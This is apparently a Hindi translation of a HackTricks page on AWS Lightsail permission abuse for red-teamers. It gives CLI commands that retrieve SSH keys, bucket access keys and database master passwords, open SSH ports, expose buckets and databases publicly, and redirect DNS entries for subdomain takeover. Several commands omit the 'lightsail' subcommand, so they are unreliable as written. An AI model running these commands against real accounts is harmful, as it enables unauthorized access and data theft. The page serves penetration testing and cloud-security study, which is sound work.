# AWS - Lightsail Privesc

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
यह ध्यान देना महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के IAM रोल्स का उपयोग नहीं करता** बल्कि AWS प्रबंधित खाते का उपयोग करता है, इसलिए आप इस सेवा का उपयोग करके privesc नहीं कर सकते। हालांकि, इस सेवा में कोड, API कुंजियाँ और डेटाबेस जानकारी जैसे **संवेदनशील डेटा** पाए जा सकते हैं।
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

यह अनुमति आपको इंस्टेंस तक पहुँचने के लिए SSH कुंजियाँ प्राप्त करने की अनुमति देगी:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** इंस्टेंसेस के अंदर संवेदनशील जानकारी ढूंढ़ना।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको इंस्टेंसेस तक पहुंचने के लिए SSH कीज़ जेनरेट करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** इंस्टेंसेस के अंदर संवेदनशील जानकारी ढूंढें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुंचने के लिए एक कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बकेट के अंदर संवेदनशील जानकारी ढूंढें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुंचने के लिए प्रमाण-पत्र प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुंचने के लिए पासवर्ड बदलने की सुविधा देगी:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

यदि डेटाबेस सार्वजनिक नहीं है, तो आप इस अनुमति के साथ इसे सार्वजनिक भी बना सकते हैं

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढना।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट के लिए पोर्ट्स खोलने की सुविधा देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट के लिए पोर्ट्स खोलने की अनुमति देती है। ध्यान दें कि यह कॉल उन पोर्ट्स को बंद कर देगा जो इसमें निर्दिष्ट नहीं हैं।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति एक इंस्टेंस को किसी बकेट तक पहुँचने की अनुमति देती है बिना किसी अतिरिक्त प्रमाणीकरण के

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक नई पहुँच की संभावना।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर अपने AWS खाते को बकेट्स पर पढ़ने की अनुमति दे सकता है या यहाँ तक कि बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले buckets तक नई पहुँच की संभावना।

### `lightsail:UpdateContainerService`

इस अनुमति के साथ एक हमलावर containers service से private ECRs तक पहुँच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**संभावित प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और उसे अपने IP पते पर पॉइंट कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड बना सकता है जो उसे डोमेन से ईमेल स्पूफ करने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने IP पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** डोमेन का अधिग्रहण

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर सबडोमेन बना सकता है और उसे अपने IP पते पर पॉइंट कर सकता है (सबडोमेन अधिग्रहण), या एक SPF रिकॉर्ड बना सकता है जो उसे डोमेन से ईमेल स्पूफ करने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने IP पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** डोमेन का अधिग्रहण करना

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**टेलीग्राम समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
